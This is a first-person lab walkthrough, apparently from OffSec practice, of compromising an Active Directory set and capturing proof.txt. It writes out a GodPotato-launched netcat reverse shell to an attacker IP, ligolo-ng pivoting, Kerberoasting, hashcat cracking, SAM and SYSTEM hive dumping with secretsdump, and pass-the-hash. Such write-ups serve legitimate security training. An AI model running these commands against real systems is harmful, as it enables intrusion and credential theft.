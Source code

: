# Active Directory

I start off with the credentials:

```
Eric.Wallows / EricLikesRunning800
```

I start by enumerating for SMB shares:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We quickly see that we can connect through evil-winrm and that the user eric.wallows has SeImpersonatePrivilege

<figure><img src="../../../../.gitbook/assets/image (193).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://usersince99.medium.com/windows-privilege-escalation-token-impersonation-seimpersonateprivilege-364b61017070" %}

So i upload printspoofer to the box:

<figure><img src="../../../../.gitbook/assets/image (194).png" alt=""><figcaption></figcaption></figure>

But there is a problem with a persistent shell because evil winrm is not interactive, so i go on another method, download and upload godpotato and launch this command:

```
C:/Users/eric.wallows/Desktop/GodPotato-NET4.exe -cmd "C:/Users/eric.wallows/Desktop/nc.exe -e cmd.exe 192.168.45.157 1234"
```

and i get a reverse shell:

<figure><img src="../../../../.gitbook/assets/image (195).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (196).png" alt=""><figcaption></figcaption></figure>

Ok so whil looking at the IP config, we see that this machine is dual homed:

<figure><img src="../../../../.gitbook/assets/image (197).png" alt=""><figcaption></figcaption></figure>

So i need to be able to pivot to access the services on the other subnet, i'll  use ligolo:

```
git clone https://github.com/nicocha30/ligolo-ng.git
cd ligolo-ng
go build -o agent ./cmd/agent
go build -o proxy ./cmd/proxy
```

From my linux box i can send to target 2 ways, with or without winrm:

without:

```
scp agent.exe user@windows-target:C:\Users\Public\agent.exe
```

with:

```
Invoke-WebRequest -Uri "http://YOUR_IP/agent.exe" -OutFile "C:\Users\Public\agent.exe"
```

<figure><img src="../../../../.gitbook/assets/image (198).png" alt=""><figcaption></figcaption></figure>

I got some problems with:

```sh
[Feb 21, 2025 - 20:41:38 (CET)] exegol-Offsec ligolo-ng # ./proxy -laddr 0.0.0.0:11601

ERRO[0000] Could not load TLS certificate. Please make sure paths are correct or use -autocert or -selfcert options  certfile=certs/cert.pem keyfile=certs/key.pem
FATA[0000] open certs/cert.pem: no such file or directory
```

and fixed it with:

```
./proxy -laddr 0.0.0.0:11601 -selfcert
```

ok i gave up on chisel and came back on ligolo, after downloading ligolo agent for windows and proxy for linux, on my kali box i ran&#x20;

```
tar -xvzf ligolo-ng_proxy_0.7.5_linux_amd64.tar.gz
ip tuntap add user felix mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert
```

and on my windows session i ran:

```
./agent.exe --connect 192.168.45.238:11601 -ignore-cert
```

<figure><img src="../../../../.gitbook/assets/image (206).png" alt=""><figcaption></figcaption></figure>

Then in another terminal i type:

```
sudo ip route add 10.10.87.0/24 dev ligolo
```

and i go back in the kali ligolo shell and type:

```
session
1
start
```

And i can now ping the internal network:&#x20;

<figure><img src="../../../../.gitbook/assets/image (207).png" alt=""><figcaption></figcaption></figure>

Then i start my enumeration over again and look for open ports:

<figure><img src="../../../../.gitbook/assets/image (208).png" alt=""><figcaption></figcaption></figure>

then i look for open shares:

<figure><img src="../../../../.gitbook/assets/image (209).png" alt=""><figcaption></figcaption></figure>

I go and download everything in Users share and find a lot of stuff:

<figure><img src="../../../../.gitbook/assets/image (210).png" alt=""><figcaption></figcaption></figure>

I started looking through each file but it was very long so i told myself that i'll continue enumeration and found something:

```
nxc ldap 10.10.87.140 -u Eric.Wallows -p EricLikesRunning800 --kerberoasting kerb.out
```

<figure><img src="../../../../.gitbook/assets/image (211).png" alt=""><figcaption></figcaption></figure>

and we're able to crack the password of web\_svc with command:

```
hashcat -m13100 websvc.hash /usr/share/wordlists/rockyou.txt
```

And we confirm we have the good credentials:

<figure><img src="../../../../.gitbook/assets/image (212).png" alt=""><figcaption></figcaption></figure>

Then i went back and privesc to dump hashes:

```
reg save HKLM\SAM "C:\Windows\Temp\sam.save"
reg save HKLM\SECURITY "C:\Windows\Temp\security.save"
reg save HKLM\SYSTEM "C:\Windows\Temp\system.save"
```

was able to secretsdump&#x20;

```
impacket-secretsdump -sam 'sam.save' -security 'security.save' -system 'system.save' LOCAL 
```

<figure><img src="../../../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

With the default creds i can connect to celia.almeda: via evil winrm

Then i find a windows.old folder that contains in /windows/system32 a sam and system hive that i export back to my attackbox and crack:

```
impacket-secretsdump -sam SAM -system SYSTEM LOCAL
```

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I'm able to use pass the hash to connect as tom admin:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And get the proof.txt on the admin Desktop
